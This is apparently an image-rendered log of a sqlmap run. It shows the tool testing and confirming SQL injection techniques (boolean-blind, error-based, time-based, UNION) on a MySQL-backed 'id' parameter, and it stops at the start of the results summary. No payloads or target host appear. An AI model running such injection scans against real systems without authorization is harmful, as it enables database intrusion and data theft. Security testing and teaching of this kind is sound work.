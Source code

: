 ```bash
[12:50:59] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:50:59] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[12:50:59] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:50:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:50:59] [WARNING] reflective value(s) found and filtering out
[12:50:59] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:50:59] [INFO] testing 'Generic inline queries'
[12:50:59] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:51:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:51:00] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[12:51:00] [INFO] GET parameter 'id' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable (with --not-string="Me")
[12:51:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:51:00] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:51:00] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[12:51:00] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[12:51:00] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:51:00] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:51:00] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:51:00] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:51:00] [INFO] GET parameter 'id' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[12:51:00] [INFO] testing 'MySQL inline queries'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[12:51:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[12:51:00] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[12:51:00] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[12:51:10] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[12:51:10] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:51:10] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[12:51:10] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:51:10] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:51:10] [INFO] target URL appears to have 2 columns in query
[12:51:10] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[12:51:10] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 136 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
```
